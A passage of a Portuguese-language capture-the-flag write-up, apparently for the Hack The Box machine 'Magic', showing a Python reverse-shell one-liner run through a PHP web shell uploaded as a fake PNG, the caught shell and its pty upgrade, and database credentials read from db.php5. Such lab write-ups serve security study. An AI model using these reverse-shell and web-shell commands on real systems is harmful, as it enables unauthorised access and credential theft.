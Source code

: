 http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
vamos utilizar este ^

fiz o teste para ver se o upload da imagem deu certo >

http://10.10.10.185/images/uploads/fxshell.php.png

```py
10.10.10.185/images/uploads/fxshell.php.png?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
o codigo ficará assim, mudando apenas meu IP de tunelamento no script em python

```bash
connect to [10.10.14.247] from (UNKNOWN) [10.10.10.185] 52180
/bin/sh: 0: can't access tty; job control turned off
$ 
```

agora utilizamos o mesmo modulo do python para escalar privilégios

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```py
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Fui procurando alguma informação que me leva-se a escalar privilégios, com o usuário do  www-data e então encontrei dados de usuário no arquivo db.php5

```bash
assets    db.php5  images  index.php  login.php  logout.php  upload.php
www-data@ubuntu:/var/www/Magic$ cat db.php5
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }
```

Com essas informações de usuário, posso baixar os dados do banco.  (dump)
